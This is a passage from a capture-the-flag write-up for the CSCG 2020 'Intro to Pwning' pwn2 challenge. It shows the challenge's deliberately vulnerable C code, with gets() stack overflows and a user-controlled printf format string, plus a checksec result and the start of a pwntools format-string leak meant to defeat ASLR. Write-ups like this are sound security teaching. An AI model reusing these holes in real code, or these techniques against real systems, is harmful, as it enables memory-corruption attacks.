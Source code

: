 The `check_password_stage1()` function seems to be safe, but we can spot two
issues within the `welcome()` function:
1. The `gets()` call allows us to overflow the stack buffer and possible gain
code redirection.
2. The `printf()` call is given our user-provided input as format string,
allowing us to possibly leak or clobber data.

The last function `AAAAAAAA()` doesn't look much better:

```c
void AAAAAAAA() {
    char read_buf[0xff];
    printf(" enter your magic spell:\n");
    gets(read_buf);
    if(strcmp(read_buf, "Expelliarmus") == 0) {
        printf("~ Protego!\n");
    } else {
        printf("-10 Points for Ravenclaw!\n");
        _exit(0);
    }
}
```

And also allows us to smash the stack for fun and profit. This function also
has a caveat though, namely that  we **must** pass the `strcmp()` as we cannot
afford the call to `_exit()` as this would terminate the program without ever
using our overwritten stack values.

## 3. Exploiting

### 3.1 Checking out the binary

Looking at the binary with checksec we can see that all security features are
enabled:

```
[*] '/home/managarmr/CTF/2020/CSCG/Pwn/Intro_To_Pwning/pwn2/pwn2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Meaning we have to somehow bypass `ASLR` and `stack canaries` if we want to
return into the `WINgardium_leviosa()` function.

### 3.2 Bypassing ASLR

Remember the rogue `printf()`? We can use this to defeat `ASLR` by leaking an
address:

```python
target.sendline('%p ' * 50)
leak = target.recvline_contains('spell:').split(b' ')
for i in range(0, 50):
	log.info(f'{i + 1}: {leak[i]}')
```
